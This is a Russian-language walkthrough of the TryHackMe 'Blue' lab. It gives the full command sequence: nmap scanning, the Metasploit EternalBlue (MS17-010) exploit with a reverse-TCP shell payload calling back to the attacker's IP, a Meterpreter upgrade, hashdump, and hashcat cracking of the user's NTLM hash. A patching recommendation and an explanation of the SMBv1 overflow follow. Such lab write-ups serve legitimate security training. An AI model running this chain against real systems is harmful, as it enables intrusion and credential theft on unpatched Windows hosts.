






# TryHackMe: [Blue](https://tryhackme.com/room/blue)

*Дата: 08.11.26*

### Сложность: Easy

**ATTACKER_IP: 192.168.130.244**

**ATTACK_IP: 10.114.147.84**

### **Лаборатория: TryHackMe, все действия легитимны**

## Цели взлома цели:
###        1. Узнать имя пользователя в системе
###        2. Узнать и крякнуть пароль этого пользователя
###        3. Найти и узнать 3 флага в системе

**Инструменты: nmap, Metasploit, MeterPreter, cmd**

Для начала начнём с базовой разведки nmap, флагами `-sV` чтобы узнать версию, `-sC` чтобы запустить базовые скрипты и `-O` чтобы узнать примерную операционную систему. Сканировать мы будем **все** порты:

```bash
sudo nmap -sV -sC -O -p- 10.114.147.84
```

Но просканировать все порты не получилось, ждать 3 часа так себе идея, поэтому давайте просканируем стандартные:

```bash
sudo nmap -sV -sC -O 10.114.147.84
```

Однако и сканирование популярных портов не получилось. Это довольно странно, это может быть связанно с проблемами с сетью или подключением к `OPENVPN`, но ладно. Давайте использовать другие флаги в `nmap`, чтобы мы смогли на 100% быть уверены что там есть, а когда мы найдём там что-то, эти порты мы и просканируем флагами -`sV` и `-sC`, а для того чтобы сканирование не шло так долго, используем флаг `--min-rate`:

```bash
sudo nmap -O --min-rate 1000 -p- 10.114.147.84
```



И да, это сканирование дало нам результаты. Анализ показал нам, что перед нами `Windows Server 2012 R2`, Это старая операционная система, которая может содержать [CVE-2017-0144](https://www.cve.org/CVERecord?id=CVE-2017-0144), поэтому давайте теперь просканируем все порты которые вышли отдельно, с флагами -`sV` и -`sC`:

```bash
sudo nmap -sV -sC -p 135,139,445,3389,5985,47001,49152,49153,49154,49155,49171,49172,49199 10.114.147.84
```



Также открыты порты `RDP (3389)` и `WinRM (5985)`, что дает нам векторы для пост-эксплуатации после получения учетных данных. Но сейчас в данные момент нас интересует 445-ый порт, нам нужно узнать, это версия до патча `MS17-010`:

```bash
nmap -p 445 --script smb-vuln-ms17-010 10.114.147.84
```



И да, как мы видим тут есть есть не только [CVE-2017-0144](https://www.cve.org/CVERecord?id=CVE-2017-0144), но ещё и [CVE-2017-0143](https://www.cve.org/CVERecord?id=CVE-2017-0143). Они относятся к одному семейству уязвимостей `MS17-010 (EternalBlue)`, поэтому для эксплуатации подойдет любой `PoC`, нацеленный на `CVE-2017-0144`, и это означает, что патч `MS17-010` **Не установлен на эту систему**. Это критическая уязвимость, которая играет нам на пользу. Как бы мне не хотелось вручную взломать `Windows`, это будет неэффективно, ведь для ручного взлома у меня может уйти пару недель, поэтому я использую готовый инструмент, но объясню как он работает простыми словами. Для начала `Metasploit`:

```bash
msfconsole
```

И теперь используем `exploit/windows/smb/ms17_010_eternalblue`:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Меняем `LHOST` и ставим туда наш `IP` *(В моём случае 192.168.130.244)*, и меняем `RHOSTS` вставляя туда `IP` цели *(В моём случае 10.114.147.84)*

Но сначала поставим правильный `payload`:

```bash
set payload windows/x64/shell/reverse_tcp
```

И теперь меняем опции скрипта под нас:

```bash
set LHOST 192.168.130.244
```

```bash
set RHOSTS 10.114.147.84
```

И запускаем *(Иногда у вас может быть установлен `LHOST` по умолчанию правильным, или же вообще его не быть. Это нормально)*

```bash
exploit
```

И теперь пишем `whoami`:

```bash
whoami
```



Мы - `System`, высшее что можно получить. Теперь давайте выполнять цели, а принцип работы эксплоиты я напишу в конце

Для начала используем `exit`. Наш нужно обновить старую сессию до новой, чтобы загрузить туда `MeterPreter`:

```bash
exit
```

Теперь обновляем сессию:

```bash
sessions -u 1 # Сессия не всегда может быть первой, используйте свой номер сессии
```

И после её обновления, заходим:

```bash
sessions 3 # У меня она три, но у вас может отличаться. Используйте номер, который выдало вам
```

Теперь давайте используем `hashdump`, чтобы узнать имя пользователя и хеш его пароля:

```bash
hashdump
```



Имя пользователя `Jon`, а рядом хэш пароля `aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::`. Это строка состоит из нескольких полей, из:
  1. Имя пользователя *(Jon)*
  2. Числовой идентификатор пользователя
  3. LM-хэш `aad3b435b51404eeaad3b435b51404ee` - устаревший тип хэша, который скорее всего пустой
  4. NTLM-хэш `ffb43f0de35be4d9917ac0cc8ad57f8d` - И есть хэш, который мы должны взломать

Для начала создаём новый терминал, и создаём файл с нашим хэшом:

```bash
echo "ffb43f0de35be4d9917ac0cc8ad57f8d" > hash.txt
```

Теперь используем утилиту `hashcat`, и огромный словарь `rockyou.txt`:

```bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

И теперь мы знаем, что пароль пользователя `Jon` - **alqfna22**. Теперь давайте займёмся поиском флагов

Теперь давайте поищем оставшиеся флаги в системе, в `MeterPreter` используем команду:

```bash
search -f *flag*.txt
```



И нам показало все три флага, теперь делаем сессию `shell`:

```bash
shell
```

И читаем каждый флаг:

```bash
type C:\Users\Jon\Documents\flag3.txt
```

```bash
type C:\Windows\System32\config\flag2.txt
```

```bash
type C:\flag1.txt
```

И проходим машинку.

### РЕКОМЕНДАЦИИ ПО УСТРАНЕНИЮ УЯЗВИМОСТЕЙ:
  1. **Обновить Windows Server до актуальной версии (например, Server 2019/2022) или как минимум установить патч безопасности MS17-010 (KB4013389)**

А теперь самое важное, как же работает сам эксплоит:

Все начинается с того, как `SMBv1` обрабатывает специальные запросы, называемые `Transaction2`. Внутри этих запросов есть структура данных, которая называется `FEA (File Extended Attributes)`

В чем ошибка: `SMBv1` слепо доверяет полям, которые указывают размер и смещение данных в пакете. Он не проверяет их корректность. Атакующий может отправить пакет, в котором заявленный размер данных будет больше, чем реально выделенный под них буфер памяти в ядре. Это и есть классическое переполнение буфера *(buffer overflow)*

Чтобы превратить простое переполнение в управляемый эксплойт, исследователи (и АНБ) использовали три бага в связке:
  1. **Ошибка в преобразовании FEA**
  2. **Ошибка в разборе транзакций**
  3. **Ошибка в установке сессии**

Как они все работают?

1. Ошибка в преобразовании `FEA` работает так, что при конвертации данных из одного формата в другой *(в `FILE_FULL_EA_INFORMATION`)* происходит неправильное приведение типов `wrong-casting`. Это и есть ошибка, которая вызывает переполнение невыгружаемого пула `non-paged pool` ядра

2. Ошибка в разборе транзакций работает засчёт того, что эта ошибка создает путаницу с размерами `size confusion`. Она позволяет атакующему так манипулировать полями пакета, чтобы система сама выделила буфер неправильного *(меньшего)* размера, который затем будет переполнен

3. Ошибка в установке сессии это когда уязвимость позволяет атакующему контролировать выделение памяти в куче `heap grooming`. Это критически важно для стабильности эксплойта

Просто отправить большой пакет и надеяться на успех нельзя, ведь байты могут оказаться где угодно. Поэтому эксплойт сначала проводит **груминг (grooming)**, он наводит порядок в памяти, чтобы переполнение гарантированно затронуло нужную структуру

Теперь, когда все готово, эксплойт отправляет финальный `Trans2` пакет. Данные переполняют буфер в дыре и перезаписывают заголовок соседней структуры `SRVNET_BUFFER_HDR` *(Эксплойт заставляет систему выделить уязвимый буфер и структуру-жертву рядом друг с другом в памяти, чтобы при переполнении гарантированно задеть нужный указатель)*, которую мы предусмотрительно разместили рядом. Теперь в заголовке есть указатель на функцию `HandlerFunction`. Перезаписав его, атакующий заставляет ядро `Windows` при следующем событии *(например, при закрытии соединения)* выполнить не легитимный код, а свой шеллкод, а поскольку весь этот процесс происходит в режиме ядра, выполнение шеллкода дает атакующему высшие привилегии — **NT AUTHORITY\SYSTEM** — без какого-либо участия пользователя

Самая главная опасность [CVE-2017-0144](https://www.cve.org/CVERecord?id=CVE-2017-0144) в том, что эта уязвимость затрагивает **непропатченные версии Windows (Vista, 7, 8, Server 2008, Server 2012). Именно поэтому WannaCry нанес такой ущерб в 2017 году - миллионы организаций по всему миру использовали устаревшие версии ОС**. Не нужно делать что-то специально, открывать сайт или тому подобное, под это могут попасть люди, которые использовали компьютер исключительно в рабочих целях, играх или вообще для хранения важных данных *(Например, паролей)*. Именно так и работает эксплоит, [CVE-2017-0144](https://www.cve.org/CVERecord?id=CVE-2017-0144), это критическая уязвимость **позволила червю WannaCry заразить более 200 000 компьютеров в 150 странах за один день, включая критическую инфраструктуру больниц и государственных учреждений. Она не требует действий со стороны пользователя - достаточно, чтобы компьютер был включен и находился в сети**

Звучит всё слишком профессионально? А вы что думали запуская эксплоит, он работает очень легко? XD

P.S Информация взята с открытых источников, по сути я просто объяснил всё на более понятном языке, взяв информацию с википедии. Я не хотел тратить пару недель на изучение всего этого :8
